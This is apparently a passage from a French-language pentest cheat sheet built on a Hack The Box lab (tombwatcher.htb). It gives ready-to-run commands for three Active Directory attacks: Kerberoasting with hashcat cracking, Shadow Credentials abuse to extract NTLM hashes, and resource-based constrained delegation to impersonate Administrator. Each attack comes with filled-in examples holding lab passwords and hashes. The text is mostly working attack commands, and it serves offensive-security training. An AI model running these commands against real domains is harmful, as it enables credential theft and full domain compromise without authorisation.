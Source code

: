 
```bash
# Récupérer les TGS pour les comptes avec SPN
impacket-GetUserSPNs <DOMAIN>/<USERNAME>:'<PASSWORD>' -request -dc-ip <IP>
# Exemple :
impacket-GetUserSPNs tombwatcher.htb/henry:'H3nry_987TGV!' -request -dc-ip 10.129.249.14
# Casser le hash avec Hashcat
hashcat -m 13100 <TGS_HASH> <WORDLIST>
```

**Shadow Credentials**

- **Objectif** : Ajouter un certificat à un compte pour récupérer son hash `NTLM`.
    
- **Outil** : `pywhisker`.
    

```bash
# Ajouter un certificat Shadow Credentials
pywhisker.py -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' --target <TARGET_USER> --action add
# Exemple :
pywhisker.py -d tombwatcher.htb -u sam -p 'Password1234' --target john --action add

# Obtenir un TGT avec le certificat
python3 /path/to/PKINITtools/gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass <PFX_PASS> <DOMAIN>/<TARGET_USER> <CCACHE_FILE>
# Exemple :
python3 /path/to/PKINITtools/gettgtpkinit.py -cert-pfx CKfnfRX5.pfx -pfx-pass "e0nMa0ZPJqfOKXSwvGPi" tombwatcher.htb/john john.ccache

# Récupérer le hash NTLM
python3 /path/to/PKINITtools/getnthash.py -key <ASREP_KEY> <DOMAIN>/<TARGET_USER>
# Exemple :
python3 /path/to/PKINITtools/getnthash.py -key 9519c1710f8ecee765b9160811406fe0f935dd9b89e221b6efa95a5d68c1c9d9 tombwatcher.htb/john
```

### Resource-Based Constrained Delegation (RBCD)

- **Objectif** : Configurer un compte d’ordinateur pour s’authentifier en tant qu’un autre utilisateur.
    
- **Outils** : `addcomputer.py`, `rbcd.py`, `getST.py`.
    

```bash
# Créer un compte d’ordinateur
addcomputer.py <DOMAIN>/<USERNAME> -hashes :<NT_HASH> -dc-ip <IP> -computer-name <COMPUTER_NAME>$ -computer-pass <PASSWORD>
# Exemple :
addcomputer.py tombwatcher.htb/john -hashes :ad9324754583e3e42b55aad4d3b8d2bf -dc-ip 10.129.249.14 -computer-name attacker$ -computer-pass 'P@ssw0rd123'

# Configurer RBCD
rbcd.py -action write -from '<COMPUTER_NAME>$' -from-password '<PASSWORD>' -to '<TARGET>' -dc-ip <IP> <DOMAIN>/<USERNAME> -hashes :<NT_HASH>
# Exemple :
rbcd.py -action write -from 'attacker$' -from-password 'P@ssw0rd123' -to 'Administrator' -dc-ip 10.129.249.14 tombwatcher.htb/john -hashes :ad9324754583e3e42b55aad4d3b8d2bf

# Obtenir un ticket TGS
getST.py -spn cifs/<DC_HOST> -impersonate <TARGET> <DOMAIN>/<COMPUTER_NAME>$:<PASSWORD> -dc-ip <IP>
# Exemple :
getST.py -spn cifs/DC01.tombwatcher.htb -impersonate Administrator tombwatcher.htb/attacker$:P@ssw0rd123 -dc-ip 10.129.249.14
```

---